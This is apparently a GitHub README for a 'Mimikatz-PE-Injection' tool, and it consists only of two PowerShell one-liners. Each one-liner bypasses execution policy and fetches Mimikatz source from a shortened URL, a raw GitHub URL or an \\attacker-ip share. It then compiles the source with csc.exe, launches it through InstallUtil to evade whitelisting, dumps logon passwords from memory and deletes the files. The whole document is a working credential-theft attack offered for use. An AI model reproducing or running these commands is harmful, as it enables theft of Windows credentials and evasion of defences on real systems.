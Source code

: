 # Mimikatz-PE-Injection

powershell -ExecutionPolicy Bypass -noLogo -Command (new-object System.Net.WebClient).DownloadFile('https://is.gd/Dopn98','katz.cs'); && cd c:\Windows\Microsoft.NET\Framework64\v4.* && csc.exe /unsafe /reference:System.IO.Compression.dll /out:katz.exe katz.cs && InstallUtil.exe /logfile= /LogToConsole=false /U katz.exe && katz.exe log privilege::debug sekurlsa::logonpasswords exit && del katz.*

powershell -ExecutionPolicy Bypass -noLogo -Command (new-object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/analyticsearch/Mimikatz-PE-Injection/master/katz.cs'); && cd c:\Windows\Microsoft.NET\Framework64\v4.* && csc.exe /unsafe /reference:System.IO.Compression.dll /out:katz.exe \\attacker-ip\share_name\katz.cs && InstallUtil.exe /logfile= /LogToConsole=false /U katz.exe && katz.exe log privilege::debug sekurlsa::logonpasswords exit && del katz.*

